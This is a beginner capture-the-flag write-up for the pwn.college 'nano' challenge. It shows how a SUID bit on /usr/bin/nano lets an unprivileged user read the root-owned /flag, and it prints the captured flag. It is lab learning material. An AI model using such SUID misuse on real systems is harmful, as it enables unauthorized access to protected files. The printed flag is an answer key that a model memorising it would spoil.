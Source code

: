 # Challenge Name: nano
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/nano`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/nano
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/nano
```

-The `s` in `-rws` indicates it's a SUID binary.
-`nano` runs with **root privileges**.

## 🚀 Exploitation

The `nano` is a lightweight, beginner-friendly terminal text editor in Linux. It’s often preinstalled and is perfect for quick edits, scripts, and configuration files, so we can just use `nano` to read the flag.

```bash
nano /flag
```

Output:
```
pwn.college{40PG0OO3fRY0tXCw5bu8g6E_9QA.dFTNxwSM0IzMyEzW}
```

